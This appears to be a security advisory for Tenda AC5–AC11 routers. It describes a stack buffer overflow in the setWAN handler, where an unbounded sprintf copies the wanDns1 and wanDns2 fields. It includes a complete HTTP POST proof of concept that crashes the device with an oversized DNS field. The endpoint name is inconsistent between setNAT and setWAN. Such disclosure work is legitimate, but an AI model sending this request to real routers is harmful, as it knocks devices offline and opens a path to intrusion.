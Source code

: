 # Tenda Router Vulnerability

This vulnerability exists in  module `wanBasicCfg` of `/goform/setNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

On the `/goform/setWAN` page, there is a stack overflow vulnerability that allows an attacker to execute arbitrary code with a well-designed POST request, or to complete a denial of service attack.

1. First get WANType, and enter the vulnerability area when its value is static.
2. Where user input wanDns1 and wanDns2 are unlimited, and their variables are respectively in v14 and v15.
3. `sprintf (v39, "%s %s", v14, v15);` After processing, placing the v39 variable causes a buffer overflow.

![pic/Untitled.png](pic/Untitled.png)

## POC

```
POST /goform/setWAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 208
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiRelay&wifiRelayType=disabled&module2=wanBasicCfg&wanType=static&wanPPPoEUser=&wanPPPoEPwd=&wanIP=192.168.0.1&wanMask=255.255.255.240&wanGateway=192.168.0.254&wanDns1=chumen77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&wanDns2=chumen88888888
```

### Verify

Vulnerability demo
![pic/Untitled%201.png](pic/Untitled%201.png)
![pic/Untitled%202.png](pic/Untitled%202.png)

If the number of characters were longer, it would be enough to overflow.